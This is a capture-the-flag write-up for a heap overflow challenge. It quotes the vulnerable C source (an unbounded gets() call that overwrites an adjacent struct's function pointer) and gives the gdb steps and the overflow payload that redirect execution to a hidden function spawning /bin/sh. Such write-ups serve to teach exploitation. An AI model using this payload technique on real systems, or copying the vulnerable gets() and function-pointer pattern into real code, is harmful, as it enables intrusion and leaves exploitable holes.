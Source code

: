 ## Overview

We are given a binary and a source code. Upon reading the source, one should notice some fishy parts, namely
```c++
void edit_meme(){
	unsigned int idx;
	printf("Index: ");
	idx = read_int();
	if(memes[idx] == NULL){
		puts("There's no meme there!");
		return;
	}
	printf("Enter meme content: ");
	gets(memes[idx]->content); //BIG MISTAKE
	puts("Done!");
}
```
that dreaded ```gets()``` function can be exploited, notice that:
```c++
void new_meme(){
	unsigned int size;
	printf("Enter meme size: ");
	size = read_int();
	if(size > 0x200){
		puts("Please, noone wants to read the entire bee movie script");
		exit(-1);
	}
	int i = 0;
	while(memes[i] != NULL && ++i < 8);
	if(i == 8){
		puts("No more memes for you!");
		exit(-1);
	}
	memes[i] = malloc(8);
	memes[i]->func = &my_print; //EXPLOITABLE
	memes[i]->content = malloc(size);
	printf("Enter meme content: ");
	fgets(memes[i]->content, size, stdin);
	puts("Done!");
}
```
```memes->func``` contains an pointer to a funtion... **any** function. Also notice that every ```memes``` object is only allocated 8 bytes of data
```c++
void EZ_WIN()	{
	puts("EAAAAAAAAAAAASYYYYYYYYYYYYY");
	system("/bin/sh");
	exit(0);
}
```
The ```EZ_WIN()``` function is probably the function we're after, its not referenced anywhere on the program
```c++
void print_meme()	{
	unsigned int idx;
	printf("Index: ");
	idx = read_int();
	if(memes[idx] == NULL)	{
		puts("There's no meme there!");
		return;
	}
	(*(memes[idx]->func))(memes[idx]->content);
}
```
We can use the ```print_meme()``` function to run it

## Solution

Using a linux terminal, create an executable and run it in gdb
```bash
$ chmod +x ez 
```
then
```bash
$ gdb ./ez
```
all you need is the address of the ```EZ_WIN()``` function to overwrite
```bash
(gdb) info address EZ_WIN
Symbol "EZ_WIN" is at 0x4014a0 in a file compiled without debugging
```
Perfect! now connect to the remote program and create two new memes object, then edit the first one so that it overflows to rewrite the function used in the second one (i.e. "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x14\x40"), print the second one, then use
```
cat flag.txt
```
to get the flag
##### Solved by Cheesewaffle
